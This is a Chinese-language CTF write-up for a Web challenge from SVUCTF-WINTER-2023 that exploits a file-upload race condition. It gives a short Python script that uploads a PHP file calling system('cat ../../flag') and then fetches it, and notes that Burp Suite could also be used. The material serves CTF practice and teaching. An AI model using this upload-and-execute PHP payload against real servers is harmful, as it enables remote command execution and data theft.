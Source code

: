 # 上传？上传！

- 作者：Cee
- 参考：SVUCTF-WINTER-2023
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：-
- 端口：-

## 题目描述

老表说这一题很ez

## 题目解析

文件上传的条件竞争 Enjoy your Happy New Year Day! Best wishes!!!

题目可以使用两种解决办法 一种是python脚本 一种是使用burp

脚本如下

```python
import requests
import concurrent.futures
import threading

url = "" #填写你的url
session = requests.session()

# upload file
files = {'upload': ('xxx.php', '<?php system("cat ../../flag");')}
try:
    session.post(url=url, files=files, timeout=1)
except requests.exceptions.ReadTimeout:
    pass

# access file
resp = session.get(f"{url}/upload/xxx.php")  # 你的shell php
print(resp.text)
```

burp suite 的使用方法有空教你们 原理大差不差 都是竞争
